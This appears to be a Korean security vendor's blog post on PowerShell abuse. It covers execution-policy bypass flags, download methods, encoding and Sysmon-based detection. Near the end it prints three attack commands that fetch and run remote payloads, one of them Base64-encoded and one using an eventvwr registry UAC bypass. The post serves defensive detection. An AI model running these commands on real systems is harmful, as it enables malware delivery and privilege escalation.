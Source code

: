 ```yaml
---
date: 2020-05-12T00:03:00
description: 
featured_image: 
tags: 
title: "PowerShell을 이용한 공격"
---
```


![2020-05-12](https://github.com/user-attachments/assets/a90db7c2-5c10-4f7e-b9d4-20c828b5a299)

## PowerShell

시스템 관리 및 자동화 등을 목적으로 설계된 명령줄 셸 및 스트립팅 언어입니다.<br>
Windows Vista 이후 기본 탑재되어 공격자의 도구로 많이 사용되고 있습니다.

### 1. 실행 정책 (Execution Policy)
기본적으로 Microsoft는 PowerShell 스크립트 실행을 제한합니다.<br>
그러나 공격자는 이를 쉽게 우회할 수 있습니다.<br>
> **우회 Flags**<br>
> -ExecutionPolicy/-EP Bypass<br>
> -ExecutionPolicy/-EP Unrestricted<br>
> -noprofile or -nop<br>
> *Profile Bypass: 각 세션이 시작될 때 PowerShell을 구성하기 위해 설정한 Profile도 무시할 수 있습니다.

### 2. 다운로드
PowerShell 클래스 및 메소드를 사용하여 악성 파일을 다운로드 및 실행합니다.
> 악의적인 PowerShell 스크립트 명령줄에서 자주 사용되는 명령입니다.<br>
> New-Object: .NET Framework의 인스턴스를 만듭니다.<br>
> System.Net.Webclient: 원격 리소스와의 데이터 송수신에 사용됩니다.<br>
> DownloadString: 원격지에서 IEX가 실행할 메모리 버퍼로 내용을 다운로드합니다<br>
> DownloadFile: 원격지에서 로컬 파일로 컨텐츠를 다운로드합니다.<br>
> IEX/Invoke-Expression: 로컬 컴퓨터에서 명령을 실행합니다.<br>
> ICM/Invoke-Command: 로컬 및 원격 컴퓨터에서 명령을 실행합니다.

### 3. 인코딩
- 인코딩은 PowerShell Commnad를 사용자 및 특정 로그에서 숨길 수 있는 한 가지 방법입니다.<br>
- Base64 인코딩을 사용한 경우 CommandLine의 길이가 길어집니다.<br>
- 인코딩 또한 우회되더라도, 장문의 명령어를 통해 불러온 PowerShell이라면 의심해볼 필요가 있습니다. ( > 500 is odd)

### 4. DLL
- 악의적인 행동을 탐지하려면, 의심스러운 calls의 조합을 찾아야 합니다.<br>
- PowerShell.exe 또는 PowerShell_ISE.exe 이외의 실행 파일에서 이러한 Dll이 호출되고 있는지 모니터링합니다.<br>
*sysmon id 7 (ImageLoaded)을 통해 확인 가능합니다.<br>
System.Management.Automation.Dll<br>
System.Management.Automation.ni.Dll<br>
System.Reflection.Dll

### 5. PLURA에서 PowerShell 악성 행위 탐지
*Sysmon 설치 필수
설치 방법: https://docs.plura.io/ko/agents/edr/windows/sysmon<br>
![ps-0-1](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

**악성 파일 실행**<br>
PowerShell 우회 및 공격자 서버로부터 파일 다운로드 행위 발생<br>
![ps-2-1](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**필터 탐지 > 호스트보안**<br>
PLURA에서는 이런 악의적인 공격을 Sysmon을 활용하여 필터 탐지하고 있습니다.

> **공격 명령어**<br>
> #powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')<br>
>
> #cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==<br>
>
> #cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe

악성 PowerShell 스크립트는 주로 email 첨부 파일의 다운로더로 사용되거나 침입 후 원격 컴퓨터에서 코드를 실행할 수 있습니다.<br>
PowerShell 위협에 대처하려면 보다 정교한 탐지 방법과 지속적인 모니터링 등의 노력이 필요합니다.


## 참조
- https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf
- https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en
- https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651

## 관련 기사, 보안뉴스
- https://bit.ly/2V99SLF
